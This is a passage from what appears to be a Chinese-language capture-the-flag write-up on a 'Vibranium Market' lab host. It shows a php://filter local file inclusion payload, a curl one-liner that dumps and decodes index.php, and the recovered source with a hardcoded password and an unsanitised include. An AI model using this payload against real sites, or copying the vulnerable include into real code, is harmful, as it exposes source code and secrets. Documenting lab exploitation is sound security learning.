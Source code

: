 ```

存在LFI漏洞

```
payload=/?lang=php://filter/convert.base64-encode/resource=index
```

先读一下已知文件的源码

> Tips:
>
> 读取对应文件可以用如下命令行简化操作
>
> ```
> curl http://192.168.xxx.xxx/?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d > index.php
> ```

```php+HTML
//index.php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>



<!DOCTYPE html>
<html lang="en"><head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="Vibranium market">
    <meta name="author" content="mamadou">

    <title>Vibranium Market</title>


    <link href="bootstrap.css" rel="stylesheet">

    
    <link href="cover.css" rel="stylesheet">
  </head>

  <body class="text-center">

    <div class="cover-container d-flex w-100 h-100 p-3 mx-auto flex-column">
      <header class="masthead mb-auto">
        <div class="inner">
          <h3 class="masthead-brand">Vibranium Market</h3>
          <nav class="nav nav-masthead justify-content-center">
            <a class="nav-link active" href="#">Home</a>
            <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
          </nav>
        </div>
      </header>

      <main role="main" class="inner cover">
```